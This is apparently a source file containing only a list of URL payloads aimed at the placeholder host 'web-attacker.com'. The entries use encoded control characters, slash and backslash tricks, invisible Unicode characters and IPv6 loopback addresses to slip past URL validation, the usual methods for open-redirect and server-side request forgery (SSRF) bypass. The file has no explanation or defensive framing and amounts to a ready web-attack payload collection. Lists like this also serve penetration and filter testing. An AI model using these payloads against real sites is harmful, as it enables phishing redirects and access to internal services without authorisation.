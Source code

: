 ```
\%09\web-attacker.com
\%0A\web-attacker.com
\/\/web-attacker.com
\/web-attacker.com
http:\\web-attacker.com\
#web-attacker.com
http:web-attacker.com
https:web-attacker.com
%00http://web-attacker.com
%01http://web-attacker.com
%02http://web-attacker.com
%03http://web-attacker.com
%04http://web-attacker.com
%05http://web-attacker.com
%06http://web-attacker.com
%07http://web-attacker.com
%08http://web-attacker.com
%09http://web-attacker.com
%0Ahttp://web-attacker.com
%0Bhttp://web-attacker.com
%0Chttp://web-attacker.com
%0Dhttp://web-attacker.com
%0Ehttp://web-attacker.com
%0Fhttp://web-attacker.com
%10http://web-attacker.com
%11http://web-attacker.com
%12http://web-attacker.com
%13http://web-attacker.com
%14http://web-attacker.com
%15http://web-attacker.com
%16http://web-attacker.com
%17http://web-attacker.com
%18http://web-attacker.com
%19http://web-attacker.com
%1Ahttp://web-attacker.com
%1Bhttp://web-attacker.com
%1Chttp://web-attacker.com
%1Dhttp://web-attacker.com
%1Ehttp://web-attacker.com
%1Fhttp://web-attacker.com
 http://web-attacker.com
h%09ttp://web-attacker.com
h%0Attp://web-attacker.com
h%0Dttp://web-attacker.com
http%09://web-attacker.com
http%0A://web-attacker.com
http%0D://web-attacker.com
%09http%09://web-attacker.com
%0Ahttp%0A://web-attacker.com
%0Dhttp%0D://web-attacker.com
http:/\web-attacker.com
http:/\\web-attacker.com
http:\\web-attacker.com
http:\web-attacker.com
http:/web-attacker.com
http:/0/web-attacker.com
https://%E2%80%8Bweb-attacker.com/
https://%E2%81%A0web-attacker.com/
https://%C2%ADweb-attacker.com/
https://%5B::%5D/
https://%5B::1%5D/
https://%5B::ffff:0.0.0.0%5D/
https://%5B::ffff:0000:0000%5D/
```